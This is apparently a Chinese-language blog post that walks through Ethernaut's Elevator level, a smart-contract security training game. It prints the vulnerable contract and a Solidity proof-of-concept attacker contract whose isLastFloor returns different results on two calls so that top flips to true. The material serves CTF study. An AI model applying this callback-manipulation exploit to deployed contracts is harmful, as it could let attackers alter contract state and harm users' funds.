 ```yaml
---
title: '函数标识符pure和view-1'
date: 2022-12-11 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十一关Elevator  思路与POC

#### 目标: 将top变量设置为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
   //这里是想让你实现isLastFloor(uint)函数,并能够在相同的输入的情况下返回两种不同的状态
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

##### poc思路:point_right:：虽然这题看起来有点不知所以然,但是它实际想说明的是如果在没有view或者pure关键字修饰的情况下,你可以更改isLastFloor(_floor)函数返回的状态. 令其在相同的输入情况下返回true或者false

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract ElevatorTest is Building {
  
  Elevator public ele = Elevator(0x805f317592037DF3f64ceb645f65dFcdA24298A1);
  bool public state = false ; //初始状态false
  //重写接口函数
  function isLastFloor(uint)  external  returns (bool){
    //第一次调用返回false 
    if(! state){
       state = true;
        return false;
     //第二次state的值更改所以返回true
    }else {
        return true;
      }
  }
  function BuildTest(uint floorT) public {
        ele.goTo(floorT);
  }
}
```

